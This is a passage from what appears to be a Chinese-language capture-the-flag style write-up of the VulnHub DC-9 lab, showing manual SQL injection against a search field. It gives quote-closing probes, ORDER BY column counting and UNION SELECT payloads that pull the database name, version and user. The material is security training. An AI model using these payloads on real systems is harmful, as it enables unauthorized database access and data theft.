 # SQL注入

## 测试注入点

尝试数字型测试，发现无任何变化

```shell
1 and 1=1#
1 and 1=1--+
1 and 1=2#
1 and 1-2--+
1 or 1=1#
1 or 1=1--+
```

再次尝试字符型，以`'`进行闭合测试

```shell
1'		无报错，无返回
1' or 1=1--+		无返回
1' or 1=1#			有返回，并且返回的结果是 Display All Records菜单中的内容，这个自己查看一下
```

![](D:\stu\vulnhub\DC靶场\pic-9\6.jpg)

那么可以确定，其应该是搜索这里面的数据，并经过测试，发现其搜索的是上面数据中的`name`

`ok`那么就可以构造语句了，借助上面数据中的一个`name`即可，如，这里借用`tom`

## 手工sql注入

构造语句并测试，发现两个回显不同，说明确实存在

```shell
tom' and 1=1#
tom' and 1=2#
```

再次构造语句进行测试，最终在`7`时无回显，也就是有6个

```shell
tom' order by 6#
```

再次构造`union`测试是否会显示

```shell
tom' union select 1,2,3,4,5,6#
```

![](D:\stu\vulnhub\DC靶场\pic-9\7.jpg)

确定这里有显示就已经`ok`了，还没有对于`union 、 select`等关键字进行过滤操作

直接上

```shell
tom' union select database(),version(),3,user(),5,6#
```
